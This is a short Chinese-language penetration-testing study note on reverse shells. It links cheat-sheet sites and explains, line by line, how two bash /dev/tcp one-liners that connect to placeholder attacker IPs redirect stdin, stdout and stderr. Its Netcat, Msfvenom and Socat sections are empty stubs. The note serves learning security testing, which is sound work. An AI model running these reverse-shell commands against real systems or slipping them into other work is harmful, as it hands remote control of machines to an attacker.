 ```yaml
---
tags:
  - 渗透/利用
---
```



**实用网站**
- 一键生成： [https://www.revshells.com/](https://www.revshells.com/)
	- windows用ps的base64可能有奇效
- [pentestmonkey](https://web.archive.org/web/20200901140719/http:/pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

![[Shell#tricks]]

---


## Bash TCP Reverse Shell


```bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
# &> 是 Bash 4开始的语法。似乎为了更直观。
bash -i &> /dev/tcp/10.0.0.50/1337 <&1
```

- `>&` 或 `&>` 是 `1> ... 2>&1` 的缩写。
	- `1>`：将标准输出 (`stdout`) 重定向到 `/dev/tcp/10.0.0.50/1337`
	- `2>&1`：将标准错误 (`stderr`) 重定向到标准输出的位置。由于前面有 `1>`，所以即 `stderr` 也重定向到 `/dev/tcp/10.0.0.50/1337`）
	- **即：将stdout和stderr都重定向到目标文件/设备。**
- `<&1` 是 `0>&1` 的缩写。将标准输入 (`stdin`) 重定向到标准输出 (`stdout`)，确保输入也从 `/dev/tcp/10.0.0.50/1337` 读取。
- **最终使得 文件描述符0、1、2都指向目标文件/设备。**


![[bash脚本#标准的重定向格式]]



## [[Netcat]]



## Msfvenom

> [[metasploit]]



## Socat

> [https://tryhackme.com/room/introtoshells](https://tryhackme.com/room/introtoshells)
